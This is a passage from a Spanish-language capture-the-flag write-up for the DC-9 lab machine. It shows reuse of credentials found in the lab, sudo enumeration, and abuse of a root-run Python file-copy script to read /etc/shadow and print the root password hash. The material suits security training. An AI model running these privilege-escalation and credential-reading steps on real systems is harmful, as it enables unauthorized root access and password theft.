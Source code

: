 ```
janitor@dc-9:~/.secrets-for-putin$ ls
passwords-found-on-post-it-notes.txt
```

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Pero decidí buscar usuarios dentro del sistema y probar las credenciales que ya se habian descubierto.

```
fredf : B4-Tru3-001
```

El usuario `fredf` tiene privilegios que se pueden explotar para obtener una shell como `root`.

```
fredf@dc-9:/opt/devstuff$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Enumerando me doy cuenta que está ejecutando un script que tiene el siguiente contenido.

```
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

Esto basicamente es explotar la edicion de archivos, podemos leer cualquier archivo y modificarlo a nuestro antojo.

```
fredf@dc-9:/opt/devstuff$ sudo /opt/devstuff/dist/test/test /etc/shadow /tmp/shadow
fredf@dc-9:/opt/devstuff$ test -f /tmp/shadow; echo $?
0
fredf@dc-9:/opt/devstuff$ cat /tmp/shadow  | head -n 1
root:$6$lFbb8QQt2wX7eUeE$6NC9LUG7cFwjIPZraeiOCkMqsJ4/4pndIOaio.f2f0Lsmy2G91EyxJrEZvZYjmXRfJK/jOiKK0iTGRyUrtl2R0:18259:0:99999:7:::
```
